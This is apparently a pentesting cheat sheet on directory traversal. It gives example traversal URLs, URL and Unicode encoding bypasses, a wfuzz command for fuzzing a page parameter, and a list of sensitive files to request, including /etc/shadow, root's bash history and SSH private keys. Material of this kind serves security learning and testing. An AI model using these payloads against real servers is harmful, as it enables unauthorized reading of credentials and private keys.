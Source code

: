 ```yaml
---
title: Directory Traversal
tags:
  - Exploitation
  - Web
---
```


### Tips & Tricks

```
If the host use windows try "\"
```

---

### Command attack vectors

```bash 
https://website.com?page=fr.php => https://website.com?page=../../../etc/passwd

# Bypass protection
http://website.com?page=../../etc/passwd => http://website.com?page=%2e%2e/%2e%2e/etc/passwd

# Basic Encoding
# . = %2e
# / = %2f
# . = %u002e
# / = %u2215
# \ = %u2216
# . = %252e
# / = %252f
# \ = %255c
# . = %c0%2e, %e0%40%ae, %c0ae
# / = %c0%af, %e0%80%af, %c0%2f
# \ = %c0%5c, %c0%80%5c
```

---

### Fuzzing

```bash 
wfuzz -c -w $wordlist --hw 0 http://website.com?page=FUZZ
```

[!file Linux File Inclusion wordlist](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)

---

### Useful file to query

```bash 
# Common Linux file
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/mail/root
/var/spool/cron/crontabs/root
/etc/sysconfig/iptables
/etc/sysconfig/ip6tables

# Private key
/.ssh/id_rsa
/.ssh/id_dsa
/.ssh/id_ed25519
/.ssh/id_ecdsa

# Query file inside /var/www/html/
index.php
index.js
```